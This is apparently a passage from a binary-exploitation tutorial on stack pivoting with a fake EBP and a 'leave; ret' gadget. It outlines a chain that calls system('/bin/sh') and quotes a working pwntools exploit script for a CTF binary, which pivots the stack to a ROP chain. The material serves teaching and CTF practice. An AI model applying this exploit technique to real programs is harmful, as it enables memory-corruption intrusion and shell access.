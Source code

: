 Therefore, putting a controlled address in the `EBP` entry of the stack and an address to `leave; ret` in `EIP`, it's possible to **move the `ESP` to the controlled `EBP` address from the stack**.

Now, the **`ESP`** is controlled pointing to a desired address and the next instruction to execute is a `RET`. To abuse this, it's possible to place in the controlled ESP place this:

* **`&(next fake EBP)`** -> Load the new EBP because of `pop ebp` from the `leave` instruction
* **`system()`** -> Called by `ret`
* **`&(leave;ret)`** -> Called after system ends, it will move ESP to the fake EBP and start agin
* **`&("/bin/sh")`**-> Param fro `system`

Basically this way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [ret2lib](../rop-return-oriented-programing/ret2lib/), but more complex with no apparent benefit but could be interesting in some edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of anoter fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,         # Load leak address in RBP
    LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
